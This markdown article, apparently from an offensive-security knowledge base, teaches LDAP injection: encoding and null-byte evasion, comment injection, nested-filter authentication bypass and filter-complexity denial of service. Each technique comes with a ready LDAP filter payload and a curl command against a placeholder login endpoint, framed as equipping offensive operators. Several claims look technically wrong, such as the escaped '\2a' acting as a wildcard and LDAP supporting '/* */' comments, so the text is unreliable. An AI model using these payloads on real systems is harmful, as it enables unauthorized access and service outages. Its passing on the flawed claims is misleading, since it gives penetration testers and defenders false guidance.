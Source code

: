 ```yaml
---
title: Advanced LDAP Injection Techniques
description: Explore advanced LDAP injection techniques for bypass, evasion, and impact
  escalation in web applications.
keywords:
- LDAP injection
- Unicode evasion
- null byte injection
- LDAP filter manipulation
- escape sequence abuse
---
```


# Advanced Techniques

## Context

The objective of this article is to empower offensive operators with the knowledge and skills needed to exploit advanced LDAP injection techniques. These methods focus on achieving bypasses, evasion, and impact escalation in web applications that utilize LDAP for authentication and data querying. The reader is expected to have a solid understanding of LDAP protocol fundamentals, LDAP query structure and filter basics, as well as standard LDAP injection methodologies.

## Theory

### Unicode and Encoding Evasion in LDAP Filters

Unicode and encoding evasion techniques involve leveraging alternate character representations to bypass input validation in LDAP filters. By encoding special characters, such as using `\2a` to represent `*`, attackers can evade blacklists and input sanitization mechanisms. This technique allows for the injection of encoded payloads into LDAP queries to manipulate filter logic or even escalate privileges.

### Case Sensitivity and Null Byte Injection

By exploiting case sensitivity, attackers take advantage of LDAP's handling of attribute names or values with varying case. This method also includes injecting null bytes (e.g., `\00`) which can terminate or alter the parsing of an LDAP filter. Such injections exploit implementation flaws where certain LDAP implementations mishandle null bytes, leading to truncated or improperly-processed input.

### Escape Sequence and Comment Injection

Escape sequence abuse manipulates filter parsing by injecting special characters using escape codes, such as `\28`, `\29`, and `\5c`. In parallel, injecting comments (e.g., `/* ... */`) within LDAP queries can neutralize filter segments or bypass controls entirely.

### Nested and Recursive Filter Injection

Nested filter injection entails embedding additional logical operators or filters within the original LDAP query. Attackers craft payloads incorporating nested operators such as `&`, `|`, or `!` to alter the intended logic of the query. Recursive queries can particularly lead to excessive processing demands or unintended data exposure.

### Resource Exhaustion and Denial of Service via Filter Complexity

Filter complexity attacks aim to create deeply nested or computationally expensive filters to exhaust server resources. By injecting filters with extensive nesting or wildcards, attackers can trigger high CPU and memory usage. LDAP servers often lack safeguards against such recursion or complexity, which may lead to denial-of-service conditions.

## Practice

### Unicode and Encoding Evasion

- Inject a wildcard character using encoding in the LDAP filter:
  
    ```sql
    (&(uid=admin)(userPassword=\2a))
    ```

  Explanation: Injects an encoded wildcard to bypass password checks.

- Use a curl command to send the payload:

    ```bash
    curl -X POST -d 'username=admin&password=%2a' http://target/login
    ```

  Outcome: Successfully bypass authentication by evading input filters with encoded characters.

### Null Byte Injection

- Insert a null byte into the LDAP filter:

    ```sql
    (&(uid=admin\00)(userPassword=secret))
    ```

  Explanation: Injects a null byte to potentially truncate filter parsing.

- Use the following curl command:

    ```bash
    curl -X POST -d $'username=admin\\x00&password=secret' http://target/login
    ```

  Outcome: Alter or bypass authentication logic through null byte injection.

### Escape Sequence and Comment Injection

- Apply escape sequences and comment injection:

    ```sql
    (&(uid=admin)/*)(userPassword=secret)
    ```

  Explanation: Uses comment to neutralize the password check segment.

- Use this curl command for the payload:

    ```bash
    curl -X POST -d 'username=admin)/*&password=secret' http://target/login
    ```

  Outcome: Bypass authentication by commenting out filter segments.

### Nested Filter Injection

- Construct a nested filter within the LDAP query:

    ```sql
    (&(uid=admin)(|(userPassword=secret)(userPassword=*)))
    ```

  Explanation: Injects a nested OR operator to allow authentication with any password.

- Send the payload using curl:

    ```bash
    curl -X POST -d 'username=admin&password=*)(' http://target/login
    ```

  Outcome: Successful manipulation of filter logic for authentication with arbitrary credentials.

### Filter Complexity Denial of Service

- Design a payload for resource exhaustion:

    ```sql
    (&(|(uid=*)(uid=*)(uid=*)(uid=*)(uid=*))(objectClass=*))
    ```

  Explanation: Creates a deeply nested filter to exhaust server resources.

- Execute the following command:

    ```bash
    curl -X POST -d 'username=*)(uid=*)(uid=*)(uid=*)(' http://target/login
    ```

  Outcome: Trigger high resource usage or potential crash of the LDAP server.

## Tools

- **curl**
- **Burp Suite**
- **ldapsearch**